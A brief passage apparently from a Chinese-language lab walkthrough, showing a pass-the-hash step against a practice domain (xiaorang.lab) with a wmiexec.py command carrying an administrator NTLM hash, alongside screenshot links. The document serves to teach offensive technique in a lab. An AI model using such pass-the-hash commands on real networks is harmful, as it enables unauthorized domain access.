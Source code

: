 [![](assets/1705540441-8761ef968e82bf4e8498fafc5718032e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174948-96711fd0-b454-1.png)

### 攻击域用户二

有了域管hash，同上PTH即可

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/administrator@172.22.4.19 -codec gbk
```

[![](assets/1705540441-f74d85ceb17f5ac809fdb23941e31cb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174955-9a500f12-b454-1.png)

